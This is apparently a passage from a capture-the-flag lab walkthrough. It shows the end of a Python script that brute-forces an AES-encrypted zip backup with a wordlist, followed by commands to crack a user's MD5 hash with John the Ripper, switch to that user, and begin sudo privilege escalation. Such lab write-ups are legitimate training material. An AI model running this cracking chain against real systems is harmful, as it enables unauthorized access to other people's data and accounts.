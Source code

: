 ```python
            if is_valid_zip(outfile):
                print("[+] Password found:", pw)
                print("[+] Decrypted zip saved to:", outfile)
                sys.exit(0)
            else:
                os.remove(outfile)
        except Exception:
            # wrong password / decrypt error
            pass
        if idx % 500 == 0:
            print("Tried", idx, "passwords, last:", pw)
print("[-] Password not found in wordlist")

```

Make it executable:

```bash
chmod +x pyaes_bruteforce.py

```

Run it (adjust wordlist path if needed):

```bash
python3 ./pyaes_bruteforce.py -i web_20250806_120723.zip.aes -w /usr/share/wordlists/rockyou.txt -o decrypted.zip

```

Unzip decrypted.zip then

<aside>
💡

*cat web/db.json*

</aside>

Crack the `mark` hash offline:

```bash
echo '<mark_hash>' >> hashes.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

*su mark* and enter supersmash password when prompted and then User flag obtained at /home 

# **Privilege Escalation — charcol (sudo)**

<aside>
💡

sudo -l

</aside>
